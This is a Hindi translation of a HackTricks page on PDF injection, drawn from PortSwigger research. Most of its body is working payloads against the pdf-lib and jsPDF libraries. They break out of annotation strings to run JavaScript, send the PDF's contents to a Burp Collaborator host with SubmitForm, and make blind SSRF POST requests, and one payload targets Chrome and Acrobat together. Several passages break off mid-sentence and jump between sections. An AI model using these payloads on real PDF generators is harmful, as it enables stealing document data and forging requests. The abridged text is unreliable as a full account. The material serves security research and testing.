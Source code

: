 <details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित करना** चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की आवश्यकता है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या मुझे **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)** का** अनुसरण करें।**

- **अपने हैकिंग ट्रिक्स को [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके साझा करें।**

</details>


**यदि आपका इनपुट एक पीडीएफ फ़ाइल में प्रतिबिंबित हो रहा है, तो आप पीडीएफ डेटा को इंजेक्ट करने के लिए पीडीएफ-इनजेक्शन का प्रयास कर सकते हैं जिससे जावास्क्रिप्ट को निष्पादित किया जा सकता है या पीडीएफ सामग्री को चुरा सकते हैं।**

निम्नलिखित जानकारी [**https://portswigger.net/research/portable-data-exfiltration**](https://portswigger.net/research/portable-data-exfiltration) से ली गई थी।

## PDF-Lib

इस बार, मैंने [PDFLib](https://pdf-lib.js.org) का उपयोग किया था। मैंने पुस्तकालय का उपयोग करके एक एनोटेशन बनाने का समय लिया और देखने की कोशिश की कि क्या मैं एनोटेशन URI में एक समाप्ति ब्रैकेट इंजेक्ट कर सकता हूँ - और यह काम कर गया! मैंने एनोटेशन कोड उत्पन्न करने के लिए उपयोग किए गए नमूना भ्रष्ट कोड कोड निम्नलिखित था:

`...`  \
`A: {`\
`Type: 'Action',`\
`S: 'URI',`\
``URI: PDFString.of(`injection)`),``\
`}`\
`})`\
`...`

[पूरा कोड:](https://github.com/PortSwigger/portable-data-exfiltration/blob/main/PDF-research-samples/pdf-lib/first-injection/test.js)

मुझे कैसे पता चला कि इंजेक्शन सफल रहा? पीडीएफ सही ढंग से रेंडर हो जाता था जब तक मैंने एक समाप्ति ब्रैकेट इंजेक्ट नहीं किया। इससे साबित हुआ कि समाप्ति ब्रैकेट स्ट्रिंग से बाहर निकल रहा था और अमान्य पीडीएफ कोड का कारण बन रहा था। पीडीएफ को तोड़ना अच्छा था, लेकिन बेशक जावास्क्रिप्ट को निष्पादित कर सकना चाहिए था। मैंने रेंडर किए गए पीडीएफ कोड पर नजर डाली और देखा कि आउटपुट FlateDecode फ़िल्टर का उपयोग करके कोड को एनकोड किया जा रहा था। मैंने एक छोटा सा स्क्रिप्ट लिखा था जो ब्लॉक को डिफ़्लेट करता है और एनोटेशन सेक्शन का आउटपुट इस तरह दिखता है:`<<`\
`/Type /Annot`\
`/Subtype /Link`\
`/Rect [ 50 746.89 320 711.89 ]`\
`/Border [ 0 0 2 ]`\
`/C [ 0 0 1 ]`\
`/A <<`\
`/Type /Action`\
`/S /URI`\
`/URI (injection))`\
`>>`\
`>>`

जैसा कि आप स्पष्ट रूप से देख सकते हैं, इंजेक्शन स्ट्रिंग पाठ सीमा को एक समाप्ति ब्रैकेट के साथ बंद कर रही है, जिससे एक मौजूदा समाप्ति ब्रैकेट बचत
यदि आप इसे JavaScript के साथ मूल्यांकन करते हैं, तो इसका परिणाम दशमलव मान 256 होता है। दूसरे शब्दों में, Flags प्रविष्टि को 256 सेट करने से SubmitPDF झंडा सक्षम हो जाएगा, जिससे फ़ॉर्म सबमिट करते समय PDF की सामग्री भेजी जाएगी। हमें बस पहले बनाए गए बेस अंतर्द्वंद्वन का उपयोग करना है और इसे संशोधित करके JavaScript की बजाय SubmitForm क्रिया को कॉल करना है: `/blah)>>/A<</S/SubmitForm/Flags 256/F(`\
`https://your-id.burpcollaborator.net)`\
`/Type/Action>>/>>(`

## sPDF

अगले मैंने अपनी मार्गनिर्धारण को एक और पीडीएफ पुस्तकालय - [jsPDF](https://parall.ax/products/jspdf) - पर लागू किया और यह भी संक्रमित था। इस पुस्तकालय का शोध करना काफी मजेदार था क्योंकि उनके पास एक API है जो ब्राउज़र में कार्यान्वयन कर सकता है और आपको टाइप करते समय वास्तविक समय में पीडीएफ उत्पन्न करने की अनुमति देगा। मैंने देखा कि, PDP-Lib पुस्तकालय की तरह, उन्होंने एनोटेशन URL के भीतर ब्रैकेट को छोड़ दिया था। यहां url संपत्ति संक्रमित थी: `doc.createAnnotation({bounds:`\
`{x:0,y:10,w:200,h:200},`\
``type:'link',url:`/input`});``\
`//vulnerable`

तो मैंने उनके API का उपयोग करके एक पीडीएफ उत्पन्न किया और url संपत्ति में पीडीएफ कोड संक्रमित किया:

`var doc = new jsPDF();`\
`doc.text(20, 20, 'Hello world!');`\
`doc.addPage('a6','l');`\
`doc.createAnnotation({bounds:`\
`` {x:0,y:10,w:200,h:200},type:'link',url:` ``\
`/blah)>>/A<</S/JavaScript/JS(app.alert(1);)/Type/Action/F 0/(`\
`` `}); ``

मैंने शब्दकोष के प्रविष्टियों के प्रकार और अनावश्यक F प्रविष्टि को हटाकर वेक्टर को कम किया। फिर मैंने एक लटकती हुई छोड़ी हुई ब्रैकेट छोड़ दी जो मौजूदा ब्रैकेट द्वारा बंद होगी। इंजेक्शन का आकार कम करना महत्वपूर्ण है क्योंकि आपको इंजेक्शन करने वाले वेब एप्लिकेशन को केवल सीमित संख्या के वर्णों की अनुमति हो सकती है। `/blah)>>/A<</S/JavaScript/JS(app.alert(1)`

फिर मैंने यह भी खोजा कि एनोटेशन को बिना इंटरैक्शन के भी कम किया जा सकता है! एक URI और जावास्क्रिप्ट प्रविष्टि एक ही एनोटेशन क्रिया में शामिल करने की अनुमति देता है और खुशी-खुशी जावास्क्रिप्ट को क्रियान्वित करेगा: `/)/S/JavaScript/JS(app.alert(1)`

अधिक शोध ने यह भी पता लगाया कि आप एनोटेशन को एकाधिक इंजेक्शन भी कर सकते हैं। इसका अर्थ है कि केवल एक क्रिया को इंजेक्शन करने के बजाय, आप एनोटेशन से बाहर निकल सकते हैं और अपने खुद के रेक्ट कोऑर्डिनेट्स को परिभाषित कर सकते हैं ताकि आप दस्तावेज़ के किसी भी खंड को क्लिक करने के लिए चुन सकें। इस तकनीक का उपयोग करके, मैं पूरे दस्तावेज़ को क्लिक करने के लिए सक्षम था। `/) >> >>`\
`<</Type /Annot /Subtype /Link /Rect [0.00 813.54 566.93 -298.27] /Border [0 0`\
`0] /A <</S/SubmitForm/Flags 0/F(https://your-id.burpcollaborator.net`

## इंटरैक्शन के बिना एनोटेशन का क्रियान्वयन

अब तक, मैंने दिखाए गए वेक्टर एनोटेशन से क्रिया को सक्रिय करने के लिए एक क्लिक की आवश्यकता होती है। आमतौर पर, जेम्स ने सवाल पूछा "क्या हम स्वचालित रूप से क्रियान्वित कर सकते हैं?"। मैंने पीडीएफ निर्देशिका की जांच की और एनोटेशन की कुछ दिलचस्प विशेषताओं को देखा:

"**PV** और **PI** प्रविष्टियाँ खोले गए पृष्ठों और दिखाए गए पृष्ठों के बीच एक अंतर करने की अनुमति देती हैं। किसी भी समय, व्यूअर एप्लिकेशन में केवल एक पृष्ठ खोला जाता है, जबकि पृष्ठ ख
जैसा कि आप देख सकते हैं, उपरोक्त वेक्टर को पीडीएफ संरचना के ज्ञान की आवश्यकता होती है। \[ 3 0 R] एक विशिष्ट पीडीएफ ऑब्जेक्ट को संदर्भित करता है और यदि हम ब्लाइंड पीडीएफ इंजेक्शन हमला कर रहे होते, तो हमें इसकी संरचना का पता नहीं होता। फिर भी, अगला चरण है एक फॉर्म सबमिशन का प्रयास करना। हम इसके लिए submitForm फ़ंक्शन का उपयोग कर सकते हैं, और क्योंकि एनोटेशन को क्लिक की आवश्यकता होती है, क्रोम इसे अनुमति देगा:`/) >> >> <</BS<</S/B/W 0>>/Type/Annot/MK<</BG[ 0.0 813.54 566.93 -298.27]/CA(Submit)>>/Rect [ 72 697.8898 144 676.2897]/Subtype/Widget/AP<</N <</Type/XObject/BBox[ 0 0 72 21.6]/Subtype/Form>>>>/Parent <</Kids[ 3 0 R]/Ff 65536/FT/Btn/T(test)>>/H/P/A<</S/JavaScript/JS(app.alert(1);this.submitForm('https://your-id.burpcollaborator.net'))/Type/Action/F 4/DA(blah`

यह काम करता है, लेकिन यह गंदा है और पीडीएफ संरचना के ज्ञान की आवश्यकता होती है। हम इसे बहुत कम कर सकते हैं और पीडीएफ संरचना पर निर्भरता को हटा सकते हैं:`#) >> >> <</BS<</S/B/W 0>>/Type/Annot/MK<</BG[ 0 0 889 792]/CA(Submit)>>/Rect [ 0 0 889 792]/Subtype/Widget/AP<</N <</Type/XObject/Subtype/Form>>>>/Parent <</Kids[ ]/Ff 65536/FT/Btn/T(test)>>/H/P/A<</S/JavaScript/JS(`\
`app.alert(1)`\
`)/Type/Action/F 4/DA(blah`\
``

यहां हम कुछ कोड हटा सकते हैं:`var doc = new jsPDF();`\
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`#)>>>><</Type/Annot/Rect[ 0 0 900 900]/Subtype/Widget/Parent<</FT/Btn/T(A)>>/A<</S/JavaScript/JS(app.alert(1))/(`});``\
`doc.text(20, 20, 'Test text');`\
``

ऊपर का कोड एनोटेशन से बाहर निकलता है, एक नया एनोटेशन बनाता है, और पूरे पृष्ठ को क्लिक करने योग्य बनाता है। जब जावास्क्रिप्ट को कार्यान्वित किया जाता है, तो हमें एक बटन इंजेक्ट करना होगा और "T" प्रविष्टि का उपयोग करके उसे किसी भी पाठ के साथ देना होगा। फिर हम अंततः अपने जावास्क्रिप्ट कोड को डिक्शनरी में JS प्रविष्टि का उपयोग करके इंजेक्ट कर सकते हैं। क्रोम पर जावास्क्रिप्ट को कार्यान्वित करना बहुत अच्छा है। मैंने जब मैं इस अनुसंधान की शुरुआत की थी, तो मैं कभी नहीं सोचा था कि यह संभव होगा।

अगले मैंने submitForm फ़ंक्शन की जांच की ताकि पीडीएफ की सामग्री चुरा सकूं। हम जानते हैं कि हम इस फ़ंक्शन को कॉल कर सकते हैं और यह एक बाहरी सर्वर से संपर्क करता है, जैसा कि ऊपर के उदाहरणों में दिखाया गया है, लेकिन क्या यह पूरी एक्रोबैट विनिर्देशिका का समर्थन करता है? मैंने [PDFium के स्रोत कोड](https://github.com/PDFium/PDFium/blob/master/fpdfsdk/src/javascript/Document.cpp#L818) की जांच की लेकिन यह फ़ंक्शन SubmitAsPDF का समर्थन नहीं करता :( आप देख सकते हैं कि यह FDF का समर्थन करता है, लेकिन दुर्भाग्य से इससे पीडीएफ की सामग्री सबमिट नहीं होती है। मैंने अन्य तरीकों की तलाश की लेकिन मुझे यह नहीं पता था कि कौन से ऑब्जेक्ट्स उपलब्ध हैं। मैंने एक्रोबैट के साथ जो अनुशासन किया था, उसी तरह से एक फ़ज़र/एनुमरेटर लिखा था जिससे दिलचस्प ऑब्जेक्ट्स को खोजा जा सकता था। क्रोम से जानकारी प्राप्त करना एक्रोबैट से कठिन था; मुझे तत्पर होने से पहले इसे टुकड़ों में जानकारी इकट्ठा करनी पड़ी थी और इसे अलर्ट फ़ंक्शन का उपयोग करके आउटपुट करना पड़ा। इसलिए यही कारण है कि अलर्ट फ़ंक्शन ने इसे भेजे गए स्ट्रिंग को काट दिया।`...`\
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link
## PDFium/Acrobat में SSRF

PDFium/Acrobat के साथ एक POST अनुरोध भेजना संभव है ताकि SSRF हमला किया जा सके। यह एक [अंधा SSRF](https://portswigger.net/web-security/ssrf/blind) होगा क्योंकि आप एक POST अनुरोध बना सकते हैं लेकिन प्रतिक्रिया को पढ़ नहीं सकते। एक POST अनुरोध बनाने के लिए, आप /parent शब्दकोश का उपयोग करके एक फॉर्म तत्व को एनोटेशन से संबंधित कर सकते हैं, जो जावास्क्रिप्ट क्रियान्वयन को सक्षम करता है। लेकिन पहले की तरह एक बटन का उपयोग करने की बजाय, आप एक पैरामीटर नाम (/T) और पैरामीटर मान (/V) शब्दकोश के साथ एक पाठ क्षेत्र (/Tx) को सौंप सकते हैं। ध्यान दें कि आपको पैरामीटर नामों को पास करना होगा जिन्हें आप उपयोग करना चाहते हैं, इसे एक एरे के रूप में submitForm फ़ंक्शन को: `#)>>>><</Type/Annot/Rect[ 0 0 900 900]/Subtype/Widget/Parent<</FT/Tx/T(foo)/V(bar)>>/A<</S/JavaScript/JS(`\
`app.alert(1);`\
`this.submitForm('https://aiws4u6uubgfdag94xvc5wbrfilc91.burpcollaborator.net', false, false, ['foo']);`\
`)/(`\
``

आप नए लाइन को भी भेज सकते हैं, जो [request smuggling](https://portswigger.net/web-security/request-smuggling) जैसे अन्य हमलों को चेन करने के लिए उपयोगी हो सकता है। POST अनुरोध का परिणाम निम्नलिखित Collaborator अनुरोध में देखा जा सकता है:

![एक PDF से बर्प कॉलेबोरेटर अनुरोध दिखाने वाली स्क्रीनशॉट](https://portswigger.net/cms/images/3f/61/fd38-article-ssrf-screenshot.png)

अंत में, मैं एक हाइब्रिड Chrome और Acrobat PDF इंजेक्शन के साथ समाप्त करना चाहता हूं। पहला हिस्सा Acrobat पर जावास्क्रिप्ट इंजेक्शन करता है ताकि जावास्क्रिप्ट को Acrobat पर निष्पादित किया जा सके। दूसरा हिस्सा एनोटेशन से बाहर निकलता है और एक नया एनोटेशन इंजेक्ट करता है जो Chrome के लिए एक नया क्लिक करने योग्य क्षेत्र परिभाषित करता है। मैं फिर से Acroform ट्रिक का उपयोग करता हूं ताकि जब जावास्क्रिप्ट निष्पादित होगा तो एक बटन इंजेक्ट होगा: `var doc = new jsPDF();`\
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`#)/S/JavaScript/JS(app.alert(1))/Type/Action>> >> <</Type/Annot/Rect[0 0 900 700]/Subtype/Widget/Parent<</FT/Btn/T(a)>>/A<</S/JavaScript/JS(app.alert(1)`});``\
`doc.text(20, 20, 'Click me Acrobat');`\
`doc.text(20, 60, 'Click me Chrome');`


<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आप **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड** करना चाहते हैं? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह।

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **ट्विटर** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)** का** अनुसरण करें।**

- **अपने हैकिंग ट्रिक्स को [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके अपना योगदान दें।**

</details>
